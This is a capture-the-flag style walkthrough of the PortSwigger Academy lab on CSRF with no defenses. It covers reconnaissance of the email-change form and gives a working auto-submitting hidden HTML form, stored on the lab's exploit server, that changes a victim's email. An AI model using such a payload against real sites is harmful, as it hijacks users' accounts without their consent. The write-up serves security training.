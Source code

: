 Title: CSRF vulnerability with No Defenses
Rank/Tier: Apprentice
Author: Portswigger Web Security Academy
Link: https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses

# CSRF vulnerability with no defenses
Provided with the following description:
>This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: **```wiener:peter```**

Main take aways from the provided description:
- Credentials to an account: ```wiener:peter```.
- Email change function is vulnerable to CSRF.
- Goal: Create and store HTML that performs CSRF on a malicious server that can change the viewers email.

# Reconnaissance
Accessing the lab we're presented with a blog. Feel free to look through the various posts. The 2 areas of interest is  ```Go to exploit server``` and ```My account``` to reach the goal of the lab. 
- Rationale for ```Go to exploit server``` is the name. In the description it said to upload HTML to the exploit server.
- Rationale for ```My account``` is in the lab description about the change email functionality being vulnerable to CSRF. Which is most likely located in a page related to my account than a blog post.
![First displayed page](Lab1_Blog_Page.png)

## Exploit server
Clicking on the ```Go to exploit server``` button we're taken to a new web page with the description
> This is your server. You can use the form below to save an exploit, and send it to the victim.
>
> Please note that the victim uses Google Chrome. When you test your exploit against yourself, we recommend using Burp's Browser or Chrome.

URL to exploit server: 
```
https://exploit-0aac00e003b9867880722ace01de0089.exploit-server.net/exploit
```
Protocol:
```
HTTPS
```
File:
```
exploit
```
Head: 
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```
Body:
```
Hello, world!
```
4 options:
- Store (Save changes to exploit server)
- View exploit (View result of the exploit server impact on the lab website)
- Deliver exploit to victim (Perform the exploit)
- Access Log

![Exploit_Server](Lab1_Exploit_Server_Original.png)

## My account
Displayed a login page requesting a username and password. Insert the provided credentials.

Username:
```
wiener
```
Password:
```
peter
```
![Login page](Lab1_Login_Page.png)

## Change account page
After successfully logging in we're taken to the My Account page which has the option to update email. From the original lab description the vulnerable functionality in this website is the email update suggesting this form to be our initial attack vector.

![My account](My_Account.png)

Viewed the pages source and the update email form is:
```
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```
Seds a POST request to ```view-source:https://0a3500ce033f86a480602b28006400dd.web-security-academy.net/my-account/change-email``` containing the newly requested email we want to change to. Doesn't seem to contain a CSRF token.

Lets attempt to change the email from ```wiener@normal-user.net``` to ```wiener2@normal-user.net``` and capture the request in burp suite.
![Email_Change_1](Email_Change1.png)
It seems to use the session ID stored in a cookie


# Web exploitation of update email function through CSRF
⚠️Session ID may vary due to connection issues and needing to restart lab during this process.

In the body of our exploit server we can insert the following:
```
<form action="https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="wiener3@normal-user.net" />
</form>
<script>
	document.forms[0].submit();
</script>
```
Explanation:
>Send the data to the destination stored in the attribute action. Which in this case is https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email. Which we got from our recon. Using type hidden because we don't want the victim to see this input field. Copy and paste ```name="email" value=""``` from the original form and insert the email we want our account to change to in value.

Use ```document.form[0].submit()``` to execute the form when our exploit server is loaded by the victim/target. 

Explanation
>Does this by using javascript and accessing the document object and use the form[index] 0 which would be our malicious form and submit it.

Select store to save it on the exploit server.
![Insert malicious form](Malicious_Body.png)

Result:<br>
![View exploit](View_Exploit.png)


